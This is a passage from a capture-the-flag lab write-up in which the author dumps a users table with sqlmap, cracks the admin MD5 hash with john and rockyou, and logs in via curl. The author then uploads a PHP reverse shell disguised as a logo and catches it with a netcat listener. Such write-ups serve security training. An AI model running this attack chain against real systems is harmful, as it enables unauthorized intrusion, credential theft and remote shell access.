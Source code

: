 The login request response has already told us that the fields "username" and "password" exist in the table "users", so we can dump these fields directly from the discovered `cts_db` database (we'll come back later if we need anything else) :

```console
┌──(kali㉿kali)-[~/Documents/tthm/lockdown]
└─$ sqlmap -r req.txt --batch --dump -D cts_db -T users -C username,password
...snip... (again, a whole lot of ...snip...)
[12:18:10] [WARNING] no clear password(s) found
Database: cts_db
Table: users
[1 entry]
+----------+----------------------------------+
| username | password                         |
+----------+----------------------------------+
| admin    | 3eba6f73c19818c36ba8fea761a3ce6d |
+----------+----------------------------------
```

This isn't the trickiest hash format to identify, but the response to the failed login has already told us that this is an md5 hash. We save the hash to a file `hash` for cracking with john and the rockyou wordlist :

```console
┌──(kali㉿kali)-[~/Documents/tthm/lockdown]
└─john hash --format=Raw-MD5 --wordlist=rockyou
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
PASSWORD (?)
1g 0:00:00:00 DONE (2021-10-02 12:23) 5.263g/s 6556Kp/s 6556Kc/s 6556KC/s sweety65..sweetloveibou
```

Sure enough, the discovered password provides access to the admin panel : 

```console
┌──(kali㉿kali)-[~/Documents/tthm/lockdown]
└─$ curl -X POST -d 'password=PASSWORD&username=admin' $IP/classes/Login.php?f=login
{"status":"success"}
```

## 4. File upload vulnerability - php reverse shell

The exploit scripts found in section 1 all focus on replacing images used in the application. Navigating to the admin dashboard, a link to `/admin/?page=system_info` provides a form that allows the user to upload a new logo using the previously discovered `system-frm` function. Following the same approach, we upload a [php reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/8aa37ebe03d896b432c4b4469028e2bed75785f1/php-reverse-shell.php) as a logo image, start a netcat listener, and navigate to the `login.php` page that displays the logo :

```console
┌──(kali㉿kali)-[~/Downloads]
└─$ nc -lnvp 123211
listening on [any] 12321 ...
connect to [ATTACK-IP] from (UNKNOWN) [10.10.115.135] 39310
...snip...
sh-4.4$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
